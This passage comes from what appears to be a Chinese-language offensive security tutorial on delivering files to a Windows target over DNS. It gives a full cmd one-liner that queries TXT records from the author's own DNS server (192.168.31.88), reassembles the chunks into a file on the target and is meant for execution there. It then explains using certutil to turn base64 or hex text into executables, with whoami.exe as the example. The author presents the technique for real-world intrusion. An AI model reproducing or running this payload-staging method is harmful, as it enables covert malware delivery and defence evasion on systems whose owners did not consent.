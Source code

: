    for {%% | %}<variable> in (<set>) do <command> [<commandlineoptions>]  
    

具体可以查看

for | Microsoft Docs

https://docs.microsoft.com/en-us/windows-server/administration/windows-
commands/for

经过两天的挣扎制作出来的命令

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && set b=!b!!a:~5,-2!) && set c=!a:~-6,-2! && if "eofs" == "!c:~0,-1!" echo !b:~1,-4!" > ttt.txt  
    

上面这个指令可以实现写入任意你想写入的字符到 ttt.txt ，当然这离不开我们自己的DNS服务器端的配置

>
> 说实话，如果你真的想在实战中使用本文介绍的方法，你就好好去看看上面的这段命令，看不明白可以微信联系我或者公众号私信我，不然你直接拿过来用肯定会骂我的，不过放心，后期我肯定会出一个脚本，直接生成，让大家不用再写

到目前来说，我们已经可以实现将脚本类的文件仅仅通过一个DNS请求写入到目标系统并且直接执行，所以说你要是擅长 bat，vbs等等脚本类东西你就可以直接上线了

但是我们的目的可不仅仅就是传递一个文本，我们要传递二进制可执行文件！

### 编码转换——certutil

`certutil` 这是个好东西

详细使用方法参考

certutil | Microsoft Docs

https://docs.microsoft.com/en-us/windows-server/administration/windows-
commands/certutil

  * 它可以实现特定格式的base64编码字符串的转换，将base64编码的字符串直接转换为二进制文件

  * 也可以将特定格式的16进制的字符串直接转换为二进制文件

这在Windows 中多命令里就算是宝藏了，不然用 cmd 命令实现 base64 解密得累死，当然了，这里推荐一个工具网站，可以把部分 c
语言逻辑的代码转为 bat 格式或者bash格式，但不要有特别大的期待

Batsh - A language that compiles to Bash and Windows Batch

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112013.png)

我们分别将 `whoami.exe` 转换为 `certutil` 能接受的16进制和base64字符格式

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112014.png)

base64:

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112016.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112018.png)
